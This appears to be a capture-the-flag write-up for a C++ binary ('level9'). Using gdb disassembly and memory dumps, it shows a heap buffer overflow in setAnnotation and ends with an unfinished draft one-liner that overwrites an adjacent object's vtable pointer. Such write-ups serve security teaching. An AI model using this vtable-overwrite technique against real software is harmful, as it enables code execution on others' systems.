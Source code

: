 ## C++ is bad too (level9)

This level's [binary](level9/source.cpp) is written in C++. It contains an _N_
class which stores a 100-bytes long character buffer and an int. The character
buffer contents are set with the _setAnnotation_ method. So this binary takes at
least one argument (or it exits) and creates two instances of the class with
C++'s "new" keyword. This basically performs an allocation and sets the int
member of the struct to the given value. There is also two operator functions,
one for '+' and an other for '-', which simply adds or substracts the int member
values and returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

The line starts with the address of the class' vtable: 0x08048848. We can see it
again 7 lines down at b's address (0x804a078). Then there's the character buffer
filled with our input (from 0x804a00c to 0x804a028). Finally, at the end of the
7th line there is a word containing the value 5 (at 0x804a070) which was _a_'s
initialization value. _b_ is layed out simirlarly but with an empty character
buffer and its value set to 6 on the last line (at 0x804a0e0).

#### TEMP (to be reworked)
* info about vtables *
overwrite b's vtable address and replace it by "bbbb":
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
#### TEMP
